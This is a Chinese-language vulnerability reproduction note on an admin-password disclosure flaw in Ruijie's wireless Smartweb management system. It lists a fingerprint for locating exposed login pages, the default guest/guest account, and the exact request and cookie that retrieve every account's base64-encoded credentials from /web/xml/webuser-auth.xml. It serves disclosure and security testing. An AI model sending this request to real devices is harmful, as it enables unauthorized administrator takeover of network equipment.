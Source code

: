 # 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

<a-checkbox checked>锐捷网络股份有限公司 无线smartweb管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="无线smartWeb--登录页面"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-15.png)



默认存在 guest账户，账号密码为 `guest/guest`



其中登录的过程中搜索admin的数据后发现请求了一个文件 `/web/xml/webuser-auth.xml`，而且响应中包含了 admin密码的base64加密



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-16.png)



解密就可以获得 admin管理员的密码，尝试直接请求



```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-17.png)



直接获得所有的账户的等级标志和base64加密的账号密码